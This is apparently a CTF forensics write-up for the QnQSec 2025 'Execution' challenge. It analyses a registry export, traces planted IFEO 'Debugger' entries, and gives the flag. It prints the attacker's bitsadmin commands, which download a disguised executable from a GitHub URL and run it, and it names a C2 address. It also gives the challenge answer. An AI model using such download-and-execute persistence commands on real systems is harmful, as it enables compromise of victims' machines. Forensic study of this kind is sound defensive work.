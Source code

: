 ```yaml
---
layout: post
title:  "Execution"
date:   2025-10-18 16:49:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /qnqsec-2025-execution/
---
```


**Title:** Execution

**Category:** forensics

**Description:** I don’t know what happened to my system something feels off. I might be compromised! As a digital forensics expert, can you help me figure out what’s going on?

1- Provide the MITRE ATT&CK technique ID used by the attacker.

2- Provide the IP:PORT of the C2 .

**Note:** Do **NOT** open the reg file on your machine.

Flag Format: QnQSec{Txxxx.xxx_IP:PORT}

**Author:** 0xS1rx58

I get the file `execution.reg` which is a windows registry exract:
```shell
file Execution.reg  
Execution.reg: Windows Registry little-endian text (Win2K or above)
```

When looking at the registry I find a suspicious github link:
```shell
iconv -f utf-16le -t utf-8 Execution.reg | grep github  
"Debugger"="cmd.exe /c bitsadmin /transfer windos /download /priority high \"https://github.com/0xS1rx58/Update/releases/download/app/image.jpg\" \"C:\\Users\\User\\AppData\\L  
ocal\\Temp\\w1n.exe\" & \"C:\\Users\\User\\AppData\\Local\\Temp\\w1n.exe\""  
"Debugger"="bitsadmin /transfer windos /download /priority high \"https://github.com/0xS1rx58/Update/releases/download/app/image.jpg\" \"C:\\Users\\User\\AppData\\Local\\Temp\  
\w1n.exe\" && start \"\" \"C:\\Users\\User\\AppData\\Local\\Temp\\w1n.exe\""  
[HKEY_USERS\S-1-5-21-1246563459-1946134361-2747221975-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.github]  
[HKEY_USERS\S-1-5-21-1246563459-1946134361-2747221975-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.github\OpenWithList]  
[HKEY_USERS\S-1-5-21-1246563459-1946134361-2747221975-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\.github]
```

I visit `https://github.com/0xS1rx58/Update/releases/download/app/image.jpg` and download the file `image.jpg`:
```file
file image.jpg  
image.jpg: PE32+ executable (console) x86-64, for MS Windows, 8 sections
```
Interesting. This is not a `.jpg`. This is a windows executable file (`.exe`). This is likely the malware.

I run `sha256sum` so I can take the hash to [https://www.virustotal.com/](https://www.virustotal.com/). 
```shell
sha256sum image.jpg  
282647bcd05fd5bec44bd914cc8542d0526e677956d935ba41c2149471047bfc
```

At [https://www.virustotal.com/gui/file/282647bcd05fd5bec44bd914cc8542d0526e677956d935ba41c2149471047bfc/behavior](https://www.virustotal.com/gui/file/282647bcd05fd5bec44bd914cc8542d0526e677956d935ba41c2149471047bfc/behavior) I find the IP traffic (`TCP 13.59.15.185:8021`).

I find the correct MITRE ATT&CK technique here: [https://attack.mitre.org/techniques/T1546/012/](https://attack.mitre.org/techniques/T1546/012/)

Image file execution options injection allows the attacker to establish persistence and/or elevate privileges by executing malicious content triggered by image file execution options (IFEO) debuggers.

[https://www.acronis.com/en/tru/posts/from-open-source-to-open-threat-tracking-chaos-rats-evolution/](https://www.acronis.com/en/tru/posts/from-open-source-to-open-threat-tracking-chaos-rats-evolution/)

`QnQSec{T1546.012_13.59.15.185:8021}`